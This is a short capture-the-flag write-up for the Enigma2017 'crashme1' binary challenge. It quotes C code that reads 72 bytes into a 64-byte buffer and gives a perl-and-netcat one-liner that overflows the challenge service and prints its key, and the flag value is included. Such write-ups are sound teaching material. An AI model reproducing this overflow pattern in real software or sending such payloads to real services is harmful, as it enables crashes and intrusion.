 # HackCenter Engima2017 crashme1

**Category:** Binary **Points:** 25 

**Description:**

> A vulnerable service is running on enigma2017.hackcenter.com:5813. If you can crash it, it will yield the key. Source is available at crashme1.c.

## Write-Up

The provided code shows us the following interesting items:

```
  #define BUFSIZE 64u 
  ...
  printf("What is your name?\n");
  fflush(stdout);
  len = read(STDIN_FILENO,buf.buf,BUFSIZE+8);
  
```

The program is creating a 64 byte unsigned buffer, reading a user's input and storing
it into the buffer. The read allows for 8 bytes of additional information past the
buffer size, but doesn't have any limitations for how much a user can input. If we attempt
to load in 73 characters, it will overflow and return our flag.

```
$ perl -e 'print "A"x73;' | nc enigma2017.hackcenter.com 5813
What is your name?                                                             
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
SEGMENTATION FAULT                                                             
Your key is 79fa02be8d8689016ec93af8ee8bdaac
```








